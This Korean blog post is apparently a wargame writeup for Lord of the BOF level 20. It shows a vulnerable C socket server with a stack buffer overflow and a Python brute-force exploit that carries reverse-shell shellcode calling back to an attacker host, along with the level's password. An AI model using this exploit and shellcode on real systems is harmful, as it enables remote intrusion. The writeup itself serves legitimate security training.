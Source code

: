 ```yaml
---
layout: single
title: "LOB 20번 (xavius -> death_night)"
#description: ""
date: 2016-02-05 12:00:00 -0400
# modified: 
tags: 
- wargame
- writeup
- pwnable
- lob
comments: true
share: true
---
```


source code:

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - dark knight
        - remote BOF
*/

#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <string.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <sys/socket.h>
#include <sys/wait.h>
#include <dumpcode.h>

main()
{
        char buffer[40];

        int server_fd, client_fd;
        struct sockaddr_in server_addr;
        struct sockaddr_in client_addr;
        int sin_size;

        if((server_fd = socket(AF_INET, SOCK_STREAM, 0)) == -1){
                perror("socket");
                exit(1);
        }

        server_addr.sin_family = AF_INET;
        server_addr.sin_port = htons(6666);
        server_addr.sin_addr.s_addr = INADDR_ANY;
        bzero(&(server_addr.sin_zero), 8);

        if(bind(server_fd, (struct sockaddr *)&server_addr, sizeof(struct sockaddr)) == -1){
                perror("bind");
                exit(1);
        }

        if(listen(server_fd, 10) == -1){
                perror("listen");
                exit(1);
        }

        while(1) {
                sin_size = sizeof(struct sockaddr_in);
                if((client_fd = accept(server_fd, (struct sockaddr *)&client_addr, &sin_size)) == -1){
                        perror("accept");
                        continue;
                }

                if (!fork()){
                        send(client_fd, "Death Knight : Not even death can save you from me!\n", 52, 0);
                        send(client_fd, "You : ", 6, 0);
                        recv(client_fd, buffer, 256, 0);
                        close(client_fd);
                        break;
                }

                close(client_fd);
                while(waitpid(-1,NULL,WNOHANG) > 0);
        }
        close(server_fd);
}
```

평범한 소켓 통신 서버 역할을 하는 프로그램이며, 원격접속한 사용자로부터 입력값을 받고 있다. 그리고 이를 통해 Buffer Overflow(이하 BOF)가 발생하게 된다. 그리고 이전의 문제들과 다르게 이 버퍼에는 아무런 보호조치가 되어있지 않다. 결국 이 문제는 원격지에서 이 LOB 서버로 접속한 후, 쉘코드와 함께 bof를 발생시키면 된다. 우선 따로 만든 공격지에서 LOB 서버 6666번 포트로 nc 명령어를 사용하였다.

![nc]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-20/0.png)

위와 같이 입력값을 받고 있다.
공격지인 다른 리눅스 로컬로 리버스 쉘코드를 사용한 브루트 포스 코드를 작성해 두었다. 원격에서 공격하는 만큼 ret주소를 알 수 없기 때문에 브루트 포스를 사용했다.


[Reverse shellcode 출처](https://orang.tistory.com/entry/%ED%95%B4%EC%BB%A4%EC%8A%A4%EC%BF%A8-LOB-xavius-deathknight-by-ORANG)

```c

1  import sys, struct, socket
2  
3  host = "192.168.235.135"
4  port = 6666
5  
6  hexhost = "\xc0\xa8\xeb\x8a" # 192.168.235.138
7  recvhexport = "\x27\x0f" # port 9999
8  
9  shellcode = "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68" + hexhost + "\x68\x02\x00" + recvhexport + "\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"10 
11 padding1 = "A" * 44
12 padding2 = "\x90" * 50
13 payload = ""
14 
15 for i in range(0xff, 0xf0, -1):
16 	for j in range(0xff, 0x00, -1):
17 		for k in range(0xff, 0x00, -1):
18 		 	r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
19 		 	r.connect((host, port))
20 		 	retaddr = chr(k) + chr(j) + chr(i) + "\xbf"
21 		 	print("RET: " + str(hex(struct.unpack("I", retaddr)[0])))
22 		 	payload += padding1
23 		 	payload += retaddr
24 		 	payload += padding2
25 		 	payload += shellcode
26 		 	print(r.recv(52))
27 		 	print(r.recv(6))
28 		 	r.send(payload)
29 		 	r.close()

```

LOB 서버에 6666번 포트로 연결하고, receive를 9999번 포트로 받으려고 한다.

![nc2]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-20/1.png)

nc로 공격지에서 listen 모드로 9999번 포트를 열어두고, 위의 브루트포스 코드를 실행시킨다.

![exploit]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-20/2.png)


my-pass: got the life